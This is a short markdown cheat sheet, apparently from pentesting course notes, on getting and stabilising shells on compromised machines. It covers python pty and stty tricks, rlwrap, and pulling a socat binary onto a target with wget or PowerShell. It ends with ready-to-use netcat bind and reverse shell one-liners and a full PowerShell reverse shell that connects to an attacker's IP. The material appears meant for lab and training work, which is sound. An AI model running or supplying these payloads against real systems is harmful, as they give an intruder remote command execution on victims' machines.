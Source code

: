 
## option A
After receiving reversed shell you can stabalize the shell if python is installed


Mind you, you may need to specify the python version

#### 3 steps
Launch bash shell:
`python -c 'import pty;pty.spawn("bin/bash")'`

backout the shell with ctr-z, setup xterm commands: 
`export TERM=xterm`

output the shell to echo raw, and bring it back to the foreground:
`stty raw -echo; fg `

Note: If the shell dies your input/output on that shell won't work anymore, type `reset` and press `[enter]`.


## Option B
### rlwrap

Specialy usefull for windows machines

`sudo apt install rlwrap`

`rlwrap nc -lnvp <port>`

Also this shell can be completely stabalized by disabling the output
`ssty raw -echo; fg`

### Option C 
Socat, 

This technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. 

To accomplish this method of stabilisation we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary 
`sudo python3 -m http.server 80`, then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget 
`wget <LOCAL-IP>/socat -O /tmp/socat`.

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`. We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks. 




### NC BIND SHELL
``mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f``


_The command first creates a [named pipe](https://www.linuxjournal.com/article/2156) at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle._


### NC REVERSE SHELL 

`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.

### WINDOWS Powershell reverse shell

`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

